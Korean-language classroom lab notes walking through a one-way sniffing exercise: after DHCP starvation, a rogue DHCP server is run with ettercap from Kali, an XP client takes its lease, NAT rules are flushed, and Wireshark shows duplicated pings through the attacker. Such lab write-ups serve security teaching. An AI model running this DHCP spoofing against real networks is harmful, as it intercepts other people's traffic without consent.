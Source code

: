


#### 실습 1 (단 방향 Sniffing)

###### CentOS

[root@Linux-11 바탕화면]# vim /var/lib/dhcpd/dhcpd.leases

아까 수업시간에 해서 이미 pool이 다 찼고 스타베이션 당한 상태임



###### 칼리

root@kali-04:~/Desktop# ettercap -i eth0 -T -M dhcp:172.16.10.200-210/255.255.255.0/168.126.63.1



###### XP

cmd -> ipconfig /release -> ipconfig /renew

```
ip 172.16.10.200
SubnetMask 255.255.255.0
Gateway 172.16.10.30
```

ping 168.126.63.1 -> 안돼 -> 칼리에서 iptables 지워



###### 칼리

root@kali-04:~/Desktop# iptables -t nat -F
root@kali-04:~/Desktop# iptables -t nat -L

```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination        
```

######  XP

ping 168.126.63.1 -> 이제 핑 감



###### 와이어샤크

동일한 ping은 2개씩 찍히는 모습을 볼 수 있다. 

